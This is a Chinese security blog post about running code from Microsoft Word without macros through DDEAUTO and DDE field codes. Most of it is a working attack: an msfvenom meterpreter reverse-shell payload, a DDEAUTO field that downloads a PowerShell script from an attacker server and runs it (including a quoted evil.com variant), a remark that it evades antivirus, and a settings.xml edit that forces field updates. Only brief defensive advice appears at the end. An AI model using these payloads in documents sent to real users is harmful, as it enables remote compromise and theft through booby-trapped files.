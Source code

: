 ```yaml
---
title: MSWord Code Exec Without Macro
date: 2017-10-12 12:54:29
tags: [vul,sec]
categories: Security
---
```

<script src="https://ob5vt1k7f.qnssl.com/pangu.js"></script>

昨天复现了一个 Microsoft Office Word 的一个执行任意代码的姿势，跟之前爆出的两个CVE (CVE-2017-0199, CVE-2017-8759) 可以组成三板斧，这里简单记录一下

在不启用宏的情况下执行任意程序，按照复现过程来看这确实像是一个功能而不是 bug，微软也表示不会修复这个“漏洞”。这个功能的本意是为了更方便地在 word 里同步更新其它应用的内容，比如说在一个 word文档里引用了另一个excel表格里的某项内容，通过连接域 (Field) 的方式可以实现在 excel 里更新内容后 word 中同步更新的效果，问题出在这个域的内容可以是一个公式(或者说表达式)，这个公式并不限制内容，于是我们可以这样，`ctrl+f9`插入一个域，在`{}`之间写入代码：

`{ DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" }`

或者`插入-文档部件-域`，选择第一个` = (Formula)`
然后右键`切换域代码`来编辑代码，插入上面的内容

这样子可以直接弹出计算器

![calc](https://ob5vt1k7f.qnssl.com/GIF.gif)


既然能执行cmd那就能弹shell

在msf里生成一个ps脚本：

`./msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f psh-reflection >xxx.ps1`

在msf里监听

![msf](https://ob5vt1k7f.qnssl.com/HQ%5D%25%7DB5TLH~HBZD%7B1_%7B$D%254.png)

然后开启一个服务器

`python -m SimpleHTTPServer 80`

远程下载ps脚本后执行

`DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -c IEX(New-Object System.Net.WebClient).DownloadString('http://x.x.x.x/xxx.ps1');xxx.ps1"`

打开文件后反弹一个shell

![shell](https://ob5vt1k7f.qnssl.com/MPI@%5B%60%25DL%28U7WZL220E0%5B7Q.jpg)


过程很简单，唯一不足的是打开文件过程中会有两次弹窗，第一次是询问是否更新链接，第二个是问是否执行程序，当两个都点击确认后才会执行。

作者给出的命令是
`{ DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://evil.com/evil.ps1');powershell -e $e "}`
但是自己尝试了并没有成功，于是修改成上面的命令，测试成功，并且不会报毒

除了上面使用的`DDEAUTO`，`DDE`也有能实现这个效果，但是要多一个步骤
将文件后缀改为`zip`或`rar`，用`7z`打开，修改`word/settings.xml`文件，增加一行`<w:updateFields w:val="true"/>`
![](https://ob5vt1k7f.qnssl.com/6U0%25213Q8W%7BEOM%7BJ_V@7%29G7.png)
替换原来的`xml`文件后把后缀改回来

编辑文档，域代码为`{ DDE "c:\\windows\\system32\\cmd.exe" "/c notepad" }`
效果跟上面一样


类似方法除了上面两个外还有
```
GLOSSARY
IMPORT
INCLUDE
SHAPE
DISPLAYBARCODE
MERGEBARCODE
```
参考微软文档 https://msdn.microsoft.com/en-us/library/ff529384(v=office.12).aspx

目前不清楚这些方法有没有影响，微软认为并没有必要去修复这个“漏洞”

> Microsoft responded that as suggested it is a feature and no further action will be taken, and will be considered for a next-version candidate bug.

最近 office 漏洞频发，建议不要打开陌生的文档包括excel，ppt等，如有必要在保护视图中查看，另外及时更新系统补丁

参考：
https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/


<script>pangu.spacingPage();</script>
